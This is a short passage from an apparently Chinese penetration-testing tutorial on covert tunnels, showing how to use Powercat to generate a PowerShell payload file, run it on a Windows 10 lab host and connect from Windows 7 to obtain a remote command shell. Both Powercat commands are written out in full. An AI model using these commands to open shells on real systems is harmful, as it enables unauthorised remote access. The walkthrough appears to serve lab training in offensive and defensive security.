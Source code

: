（6）用Powercat生成Payload反弹shell

用Powercat生成的Payload也有正向和反向之分，且可以对其编码。

尝试生成一个简单的Payload，在Win7中执行如下命令：

```
powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

![](/assets/img/隐藏通信隧道基础知识/57.png)

然后把shell.ps1上传给Win10，并运行，之后Win7执行命令成功反弹shell：

```
powercat -c 192.168.2.4 -p 8000 -v
```
